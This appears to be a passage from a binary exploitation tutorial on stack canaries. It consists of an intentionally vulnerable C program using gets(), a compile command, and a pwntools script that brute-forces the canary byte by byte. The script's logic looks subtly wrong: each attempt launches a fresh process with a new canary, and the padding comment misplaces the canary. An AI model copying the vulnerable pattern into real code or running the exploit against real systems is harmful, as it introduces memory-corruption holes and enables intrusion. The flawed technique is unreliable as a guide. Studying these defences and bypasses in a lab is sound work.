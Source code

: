 ## Protection Mechanisms and Bypasses

### Stack Canaries

```c
// canary_example.c
#include <stdio.h>

void vulnerable() {
    char buffer[64];
    printf("Buffer at: %p\n", buffer);
    printf("Enter input: ");
    gets(buffer);
    printf("Function returned normally\n");
}

int main() {
    vulnerable();
    return 0;
}
```

**Compile with canary:**
```bash
gcc -fstack-protector-all -o canary_vuln canary_example.c
```

**Canary Bypass - Bruteforce:**
```python
#!/usr/bin/env python3
from pwn import *
import string

def bruteforce_canary():
    context.log_level = 'error'  # Reduce noise
    
    canary = b''
    
    # Bruteforce canary byte by byte
    for i in range(8):  # 64-bit canary
        for c in range(256):
            p = process('./canary_vuln')
            
            # Payload to overwrite one more byte of canary
            payload = b'A' * 72  # Fill buffer + saved rbp
            payload += canary + bytes([c])
            
            p.sendline(payload)
            
            # Check if program crashed
            try:
                output = p.recvall(timeout=1)
                if b"stack smashing detected" not in output:
                    canary += bytes([c])
                    print(f"Canary byte {i}: 0x{c:02x}")
                    p.close()
                    break
            except:
                pass
            
            p.close()
    
    print(f"Full canary: {canary.hex()}")
    return canary
```